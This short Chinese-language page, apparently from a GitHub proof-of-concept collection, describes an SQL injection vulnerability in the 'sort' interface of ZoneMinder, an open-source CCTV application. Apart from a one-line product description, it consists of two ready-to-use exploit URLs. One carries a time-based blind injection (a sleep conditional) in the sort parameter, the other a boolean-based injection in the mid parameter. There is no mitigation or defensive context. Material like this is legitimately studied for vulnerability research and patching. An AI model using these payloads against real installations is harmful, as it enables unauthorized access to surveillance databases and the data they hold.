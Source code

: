 # ZoneMinder系统sort接口存在SQL注入漏洞

ZoneMinder 是一款免费、开源的闭路电视软件应用程序，专为 Linux 开发，支持 IP、USB 和模拟摄像机。

## poc

```java
http://host:port/zm/index.php?sort=**if(now()=sysdate()%2Csleep(6)%2C0)**&order=desc&limit=20&view=request&request=watch&mid=1
```

```java
http://host:port/zm/index.php?limit=20&mid=-1%20OR%203*2*1=6%20AND%20000322=000322&order=desc&request=watch&sort=Id&view=request
```

